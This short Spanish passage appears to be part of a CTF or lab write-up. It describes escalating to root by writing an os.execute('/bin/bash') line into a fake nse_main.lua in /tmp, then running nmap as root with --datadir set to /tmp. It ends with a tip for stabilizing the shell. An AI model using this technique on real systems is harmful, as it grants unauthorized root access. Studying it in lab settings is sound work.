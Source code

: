 ```bash
echo 'os.execute("/bin/bash")' > /tmp/nse_main.lua
```

Una vez creado, le vamos a decir a nmap que el "--datadir" que debe coger es /tmp. Después, hacemos un escaneo a localhost ejecutando un script cualquiera de nmap como root:

![image](../zimages/Pasted_image_20250413203037.png)

**Pista -> Si la shell no te funciona, simplemente teclea `script /dev/null -c  bash` y listo.**

# ./PWNED
